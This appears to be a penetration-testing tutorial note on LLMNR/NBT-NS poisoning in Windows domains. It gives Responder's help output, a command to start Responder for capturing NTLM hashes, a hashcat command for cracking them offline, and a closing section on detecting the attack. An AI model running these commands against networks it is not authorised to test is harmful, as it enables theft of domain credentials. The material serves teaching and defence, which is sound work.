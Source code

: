 # LLMNR/NBT-NS Poisoning

## Introduction

### Password Spraying and Poisoning

* The goal of these attacks are to acquire a valid set of credentials for a domain user account
* In return, we will be granted a foothold in the domain and we can begin the next phase of enumeration with credentials!

## LLMNR & NBT-NS

LLMNR: Link-Local Multicast Name Resolution

NBT-NS: NetBIOS Name Service

* Both are ways that serve as alternate methods of host identification when DNS fails
* We can attack these protocols by using the Man-in-The-Middle technique&#x20;
* <mark style="color:yellow;">The reason that LLMNR and NBT-NS are such a target is because any host on the network can reply to name resolution requests which is why we can poison these requests with Responder</mark>
* The poisoning works because the attacker pretends to know the location of the requested host
* We can then capture their NTLM hash and take it offline and crack it or attempt to Pass The Hash if the NTLM version is NTLMv1 and not NTLMv2
* The captured authentication request can also be relayed (Impacket-ntlmrelayx) to access another host or to be used against a different protocol such as LDAP on the same host

### Overall

* A mixture of LLMNR & NBT-NS in an environment will lead to a bad day
* Especially when those two network protocols are associated with a lack of SMB signing
* This can lead to SMB relay attacks; granting the attacker administrative access on the hosts in a domain

## Responder

Responder is capable of attacking the following networking protocols:

* LLMNR
* DNS
* MDNS
* NBNS
* DHCP
* ICMP
* HTTP
* HTTPS
* SMB
* LDAP
* WPAD
* WebDAV

### In Action

Responder Help Page:

```
responder -h
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -r -f
or:
responder -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

Arguments:

* <mark style="color:yellow;">-A: Analyze mode</mark>; this will allow you to see <mark style="color:yellow;">NBT-NS, BROWSER, and LLMNR</mark>
  * This will NOT poison your requests
* <mark style="color:yellow;">-wf</mark>: This will start the <mark style="color:yellow;">WPAD rogue server</mark> and <mark style="color:yellow;">fingerprint</mark> the remote host OS and version
* \-v: Additional Verbosity
* <mark style="color:yellow;">-w</mark>: <mark style="color:yellow;">WPAD proxy server</mark>; it will capture all HTTP requests by any users that launch Internet Explorer!

### Starting Responder w/ Default Settings

```
sudo responder -I ens224
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* You should always start Responder and let it run for a while and you can perform additional tasks in the foreground
* However, we can take this hash and crack it offline

### Hashcat

```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

* Password cracked!

## How to Detect this kind of Behavior

It is not always possible to disable LLMNR and NetBIOS, and therefore we need ways to detect this type of attack behavior. One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses.&#x20;

Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs 4697 and 7045 can be monitored for. Finally, we can monitor the registry key HKLM\Software\Policies\Microsoft\Windows NT\DNSClient for changes to the EnableMulticast DWORD value. A value of 0 would mean that LLMNR is disabled.

